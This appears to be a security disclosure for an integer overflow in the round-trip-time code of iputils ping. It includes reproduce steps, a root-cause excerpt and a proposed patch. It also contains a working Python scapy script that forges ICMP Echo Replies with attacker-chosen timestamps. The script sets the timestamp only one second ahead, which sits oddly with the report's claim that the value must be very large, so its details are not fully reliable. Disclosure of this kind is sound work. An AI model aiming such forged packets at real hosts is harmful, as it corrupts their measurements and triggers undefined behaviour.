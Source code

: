 
# ping\_rtt overflow

## Summary

A crafted ICMP Echo Reply can trigger a signed 64-bit integer overflow in iputils `ping` RTT calculation. By forging the timestamp field in the ICMP payload to be sufficiently large, the multiplication of seconds by 1,000,000 exceeds the signed `long` range, causing undefined behavior. Under AddressSanitizer (ASan), this is detected as a runtime error. In non ASan builds it wraps silently and clamps to zero, resulting in repeated zero-RTT readings and incorrect statistics.

## Affected Versions

* iputils `ping` from the current `master` branch: [https://github.com/iputils/iputils/tree/master](https://github.com/iputils/iputils/tree/master)
* Ubuntu package version: `iputils-ping 3:20240117-1build1`

## Environment

* Distribution: Ubuntu 24.04.1 LTS (Noble Numbat)
* Kernel: 5.15.167.4-microsoft-standard-WSL2
* Architecture: x86\_64

## Steps to Reproduce

1. Check out the `master` branch of iputils and build with ASan:

   ```sh
   git clone https://github.com/iputils/iputils.git
   cd iputils
   mkdir builddir-asan && cd builddir-asan
   meson .. -Denable-sanitizers=true
   ninja
   ```
2. In one terminal, start the PoC listener script (`poc.py`):

   ```sh
   sudo ./poc.py
   ```
3. In another terminal, run ping:

   ```sh
   sudo ./ping/ping -R -s 64 127.0.0.1
   ```
4. Observe signed-integer-overflow errors from ASan:

   ```
   ../ping_common.c:757: runtime error: signed integer overflow
   ```
5. Without sanitizers, observe `time=0.000 ms` on every reply despite real latency and truncated/duplicate replies.

https://github.com/user-attachments/assets/52ebf6e9-daf7-43ae-a1c9-03d3bf7bce7b

## Root Cause Analysis

In `ping_common.c`, the code does:

```c
/* normalize recv_time - send_time */
tvsub(&tv, &tmp_tv);
/* compute microseconds */
triptime = tv.tv_sec * 1000000 + tv.tv_usec;
```

Because `tv->tv_sec` is a signed 64-bit `long` and attacker controls it via the ICMP payload, multiplying by 1,000,000 can exceed `LONG_MAX`, causing signed overflow (CWE-190). The code does not check for overflow before or after the multiplication.

## Proposed Fix

Modify the RTT computation to use a 128-bit intermediate and clamp:


```diff
--- a/ping_common.c
+++ b/ping_common.c
@@ -754,7 +754,15 @@ gather_statistics(struct ping_rts *rts, uint8_t *icmph, int icmplen,
        tvsub(tv, &tmp_tv);
-       triptime = tv->tv_sec * 1000000 + tv->tv_usec;
+       {
+           __int128 delta = (__int128)tv->tv_sec * 1000000 + tv->tv_usec;
+           if (delta < 0) {
+               triptime = 0;
+           } else if (delta > LLONG_MAX) {
+               triptime = (long)LLONG_MAX;
+           } else {
+               triptime = (long)delta;
+           }
+       }
```

## PoC Script (`poc.py`)

```python
#!/usr/bin/env python3
from scapy.all import IP, ICMP, Raw, send, sniff, bind_layers
import time, struct, sys, os

LISTEN_INTERFACE = "lo"
TARGET_IP = "127.0.0.1"
FUTURE_OFFSET_SEC = 1.0

bind_layers(ICMP, Raw)

def process_packet(pkt):
    if not (pkt.haslayer(IP) and pkt.haslayer(ICMP)):
        return
    ip = pkt[IP]
    ic = pkt[ICMP]
    if ic.type != 8:
        return

    fut = time.time() + FUTURE_OFFSET_SEC
    sec = int(fut)
    usec = int((fut - sec) * 1_000_000)

    data = struct.pack('=ll', sec, usec)
    data += b'Z'*8   # padding to force full timeval read and overflow

    reply = (
        IP(src=ip.dst, dst=ip.src) /
        ICMP(type=0, code=0, id=ic.id, seq=ic.seq) /
        Raw(load=data)
    )

    print(f"sending id={ic.id} seq={ic.seq} sec={sec} usec={usec} len={len(data)}")
    send(reply, iface=LISTEN_INTERFACE, verbose=False)


def main():
    if os.geteuid() != 0:
        sys.exit("need root")
    filt = f"icmp and icmp[icmptype] = icmp-echo and host {TARGET_IP}"
    print(f"listening on {LISTEN_INTERFACE} for {TARGET_IP}")
    sniff(iface=LISTEN_INTERFACE, filter=filt, prn=process_packet, store=0)

if __name__=='__main__':
    main()
```

----
```
Signed-off-by: Mohamed Maatallah <hotelsmaatallahrecemail@gmail.com>
```
